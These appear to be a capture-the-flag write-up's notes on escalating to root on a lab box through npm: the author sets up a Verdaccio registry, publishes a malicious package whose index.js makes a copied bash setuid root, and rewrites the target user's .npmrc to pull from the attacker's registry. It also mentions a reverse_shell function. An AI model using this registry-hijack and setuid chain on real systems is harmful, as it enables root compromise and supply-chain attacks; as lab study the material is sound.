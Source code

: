 ```bash
npm init -y # Initialise
npm install --save ../Logger
# Verify module installation
node 
> module.paths 
# Link instead of install for large depenedency and development "reasons.."
npm link # to link the module
```

![](itsworking.png)

Reviewing the code:  

![1080](rootvia8000.png)
- I replace the upper casing of the functions as contructors/classes conventionally are PascalCase and functions use camal case. 
- Changed the module name as it loglevel not Logger
- removethe warn as I dont need to target the server bricking..
- called the reverse_shell function
- more semi colons
- updated the comments
- Takes a parameter
- return it just to provide more visibility that something has happened.

Re init and installed after uninstall and ... I must of missed something
![](musthavemissedsomething.png)

No reverse shell. I stil learnt some JS. Now I understand why I am so wrong. 

It is Ubuntu 18 and before sudo pulls from home not root. We need to edit the .npmrc to point to our box
![1080](itactuallyworking.png)

I was not really wrong I did not know how npm pulled packages. Ippsec hit my recent Dockerise bump from a couple of days ago... So will return to this after I thought and researched run docker in the best way possible.

```bash
# Pull the latest version
sudo docker pull verdaccio/verdaccio
# Run -it sudo tty --rm to delete when done, bind port to host
sudo docker run -it --rm --name verdaccio -p 4873:4873 -e 'VERDACCIO_PUBLIC_URL=http://10.10.14.43' verdaccio/verdaccio
# Update auth and flag that exists for legacy authentication 
nmp adduser --registry http://10.10.14.43 --auth-type=legacy
# cat ~/.npmrc
//10.10.14.43:4873/:_authToken="sRfm658flJcUvA3n56/edw=="
# Initialise a MAlicious NPM Package
npm init 
# Version > target npm 
# make index.js
require("child_process").exec("chown root:root /tmp/shell;chmod 4755 /tmp/shell")
npm login --registry http://10.10.14.43:4873 --auth-type=legacy
npm publish --registry http://10.10.14.43:4873
# Target
# update .npmrc 
sed -i 's/127.0.0.1/10.10.14.43/g' /home/kavi/.npmrc
# Copy bash for setuid 
cp /bin/bash /tmp/shell
```
[Verdaccio Documentation](https://verdaccio.org/docs/setup-npm)
